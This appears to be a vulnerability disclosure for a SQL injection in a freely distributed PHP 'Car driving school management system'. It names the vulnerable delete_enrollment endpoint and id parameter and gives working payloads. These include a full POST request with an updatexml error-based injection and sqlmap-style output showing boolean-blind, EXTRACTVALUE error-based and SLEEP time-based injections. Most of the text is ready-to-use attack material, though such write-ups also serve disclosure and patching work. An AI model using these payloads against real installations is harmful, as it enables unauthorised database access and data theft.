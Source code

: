 ## Car driving school management system has a SQL injection vulnerability.

vendors: https://www.sourcecodester.com/php/15070/car-driving-school-management-system-phpoop-free-source-code.html

Vulnerability file: /cdsms/classes/Master.php?f=delete_enrollment

Vulnerability location: /cdsms/classes/Master.php?f=delete_enrollment, id

[+]Payload: id=5' and updatexml(1,concat(0x7e,(select version()),0x7e),0)--+ //id is Injection point

```
POST /cdsms/classes/Master.php?f=delete_enrollment HTTP/1.1
Host: 192.168.1.19
Content-Length: 64
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/cdsms/admin/?page=enrollees
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=vfe306mj2a11p5q94440ttg4bd
Connection: close

id=5' and updatexml(1,concat(0x7e,(select version()),0x7e),0)--+ //id is Injection point
```
![image](https://user-images.githubusercontent.com/54017627/160320370-98f7bdae-e332-48c4-8575-8c04db3b7280.png)

```sql
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=5' RLIKE (SELECT (CASE WHEN (2063=2063) THEN 5 ELSE 0x28 END))-- tmvi

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=5' AND EXTRACTVALUE(3533,CONCAT(0x5c,0x71767a6b71,(SELECT (ELT(3533=3533,1))),0x716a6b7871))-- tQbt

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=5' AND (SELECT 1981 FROM (SELECT(SLEEP(5)))mXOm)-- Mmee
---
```
![image](https://user-images.githubusercontent.com/54017627/160320369-7982f472-d275-4507-8585-5d69eb26e63e.png)

